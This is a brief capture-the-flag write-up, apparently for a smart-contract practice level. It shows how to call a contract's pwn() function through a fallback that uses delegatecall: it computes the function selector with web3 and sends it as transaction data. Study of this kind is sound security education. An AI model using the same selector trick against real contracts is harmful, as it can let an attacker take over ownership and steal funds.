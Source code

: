 # In order to access `pwn()`, I need to use the fallback function that includes `delegatecall`. 

1. Get `pwn()`'s signature.
`web3.sha3("pwn()").slice(0,10)`
2. Send 4bytes of the signature to use the fallback function.
`contract.sendTransaction({data: '0xdd365b8b'})`